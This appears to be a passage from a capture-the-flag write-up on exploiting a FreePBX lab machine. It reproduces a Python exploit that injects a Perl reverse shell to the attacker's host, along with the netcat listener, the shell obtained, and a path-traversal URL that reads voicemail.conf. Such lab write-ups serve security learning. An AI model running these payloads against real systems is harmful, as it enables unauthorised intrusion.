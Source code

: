 ```bash
-rw-rw-r-- 1 fanis fanis 33 Oct 28 21:22 /home/fanis/user.txt
```

# An extra step
Recall that the initial search for exploits had two viable candidates. The Local File Inclusion that we exploited but also a Remote Code Execution which we should also take a look at. Reviewing the python exploit, we see there are a few things that are required. We need to provide it with a remote host, our IP address and a port number with a netcat listener, and an extension. Reviewing the exploit further, we can see that this a link to a blog post further explaining it. www.offensive-security.com/vulndev/freepbx-exploit-phone-home/

Changing the first 3 variables to match our environment, and setting up a listener on port 4444, we can try to run the exploit unfortunately we don't receive the reverse shell.

```python
import urllib
import ssl
rhost="10.129.78.9"
lhost="10.10.14.83"
lport=4444
extension="1000"

ssl._create_default_https_context = ssl._create_unverified_context

# Reverse shell payload
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)

```

 While I don't that says a valid extension is required, this does seem to be interacting with a voicemail recording and presumably would require a valid extension to be provided. Using the admin credentials we obtained earlier, we can login to the `/admin` portal using the credentials. This leads us to a page `/recordings` which reveals the extension 233. In the above code, we can change the line `extenstion=233` and rerun the exploit. Doing so and rerunning the exploit provides a reverse shell as the user asterisk. 
 ```bash
 # Run the Exploit
 python2 18650.py

#Setup nc listener on port 4444
nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.83] from (UNKNOWN) [10.129.78.9] 48226
whoami
asterisk
```
While the more direct path to root exists with the discovered credentials, this is an other method. While we still needed the admin credentials we could has also used the LFI to read the file `/etc/asterisk/voicemail.conf`. Doing so would also reveal the extension 233 for the Fanis user. 
```bash
view-source:https://10.129.78.9/vtigercrm/graph.php?current_language=../../../../../../../..//etc/asterisk/voicemail.conf%00&module=Accounts&action

[general]
#include vm_general.inc
#include vm_email.inc
[default]

```